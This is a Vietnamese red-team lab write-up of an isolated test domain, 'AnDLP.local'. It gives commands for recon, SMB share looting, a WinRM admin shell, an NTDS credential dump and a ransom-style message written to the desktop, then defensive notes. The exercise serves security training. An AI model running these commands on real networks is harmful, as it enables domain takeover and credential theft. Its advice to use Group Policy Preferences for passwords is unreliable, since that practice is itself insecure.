







# 📝 Báo Cáo Tấn Công Thử Nghiệm Active Directory (Red Team)

**Ngày thực hiện:** 13/05/2026
**Kỹ thuật viên:** Dương Lê Phú An
**Trạng thái:** Hoàn tất chuỗi tấn công (Kill Chain Completed)

---

## I. Tổng quan chiến dịch (Executive Summary)
Chiến dịch mô phỏng một cuộc tấn công thực tế vào môi trường Active Directory `AnDLP.local`. Quá trình đi từ việc dò quét ngoại vi, khai thác lỗi cấu hình trong thư mục chia sẻ, cho đến khi chiếm quyền quản trị tối cao (Domain Admin) và trích xuất toàn bộ cơ sở dữ liệu mật khẩu người dùng.

---

## II. Môi trường Lab & Tiền đề khai thác (Environment & Setup)

### 🖥️ Cấu hình hệ thống
- **Host Hardware:** AMD Ryzen 7 8845HS, 32GB RAM
- **Virtual Machines:** 
  - 1x Windows Server 2022 (Target/Domain Controller)
  - 1x Ubuntu Linux (Attacker Machine)
- **Network Setup:** Mạng ảo Host-only (Subnet `192.168.174.0/24`) đảm bảo cách ly an toàn.

### 🛠️ Các cấu hình "điểm mù" (Security Blind Spots)
Để mô phỏng các sai lầm phổ biến của quản trị viên, Lab được thiết lập với:
* **Initial Foothold:** Tài khoản nhân viên `nhanvienIT1` bị lộ mật khẩu.
* **The Bait:** Kịch bản tự động `password.bat` chứa mật khẩu plaintext trong thư mục `SYSVOL` (mọi người dùng đều có quyền đọc).
* **Remote Services:** Port 5985 (WinRM) được mở sẵn cho phép kết nối từ xa.

---

## III. Chuỗi thực thi tấn công (Execution Chain)

Mục tiêu là thực hiện trọn vẹn chuỗi **Cyber Kill Chain**:



### Bước 1: Dò tìm mục tiêu (Reconnaissance)
Sử dụng Nmap để xác định bề mặt tấn công của Target `192.168.174.129`.
```bash
nmap -sC -sV -p- 192.168.174.129
```


**Kết quả:** Phát hiện Port **445 (SMB)** và **5985 (WinRM)** đang mở - hai "cửa ngõ" quan trọng nhất.

### Bước 2: Đột nhập bước đầu (Initial Access)
Khai thác dịch vụ SMB bằng tài khoản `nhanvienIT1` để tìm kiếm dữ liệu nhạy cảm trên Network Shares.
```bash
# Liệt kê các thư mục chia sẻ
smbclient -L //192.168.174.129 -U nhanvienIT1

# Truy cập vào thư mục SYSVOL
smbclient //192.168.174.129/SYSVOL -U nhanvienIT1
```


### Bước 3: Leo thang đặc quyền (Privilege Escalation)
Lục lọi trong `SYSVOL/AnDLP.local/scripts` và phát hiện file kịch bản `password.bat`.
```bash
# Tải file về máy attacker
get password.bat

# Đọc nội dung file
cat password.bat
```


**Kết luận:** File `.bat` chứa mật khẩu **Plaintext** của tài khoản Administrator. Lỗ hổng cực kỳ nghiêm trọng.

### Bước 4: Chiếm quyền điều khiển (System Compromise)
Sử dụng mật khẩu vừa thu thập được để lấy Shell từ xa qua WinRM.
```bash
# Đăng nhập qua WinRM
evil-winrm -i 192.168.174.129 -u Administrator -p 'P@ssw0rd_Leaked'

# Kiểm tra đặc quyền
whoami /priv

# Để lại bằng chứng (Capture The Flag)
echo "This computer has been hacked ! give me your money or i will publish all the passwords :)" > C:\Users\Administrator\Desktop\hacked.txt
```



### Bước 5: Vét sạch dữ liệu (Post-Exploitation)
Trích xuất tệp tin `NTDS.dit` để lấy mã băm mật khẩu của toàn bộ tổ chức.
```bash
impacket-secretsdump AnDLP.local/Administrator:'P@ssw0rd_Leaked'@192.168.174.129
```


---

## IV. Chỉ số tấn công (Indicators of Attack - IoA)
| Giai đoạn | Kỹ thuật (TTPs) | Công cụ sử dụng |
| :--- | :--- | :--- |
| **Reconnaissance** | Active Scanning | `Nmap` |
| **Initial Access** | Valid Accounts (SMB) | `smbclient` |
| **Privilege Escalation** | Credentials in Scripts | `Manual Analysis` |
| **Persistence/Access** | Remote Management Services | `evil-winrm` |
| **Exfiltration** | NTDS Dumping | `impacket` |

---

## V. Bài học rút ra & Khuyến nghị (Blue Team Notes)

1. **Password Hygiene:** Tuyệt đối không lưu mật khẩu plaintext trong file script (.bat, .ps1). Sử dụng Group Policy Preferences (GPP) hoặc Local Administrator Password Solution (LAPS).
2. **SMB Hardening:** Kiểm soát chặt chẽ quyền truy cập (ACLs) trên các thư mục `SYSVOL` và `NETLOGON`.
3. **Mô hình hóa tấn công:** Kẻ tấn công luôn tìm kiếm mắt xích yếu nhất (mật khẩu lộ) để "nhảy" vào tâm của hệ thống.

---

## VI. Kết luận
Chiến dịch đã thành công trong việc chiếm quyền quản trị tối cao của domain `AnDLP.local`. Các lỗ hổng phát hiện được là những lỗi cấu hình cơ bản nhưng mang lại hậu quả khôn lường.

> 🔍 **Tiếp theo:** Để biết cách điều tra và phát hiện cuộc tấn công này thông qua Event Viewer, hãy xem bài viết ngày **14/05/2026**.
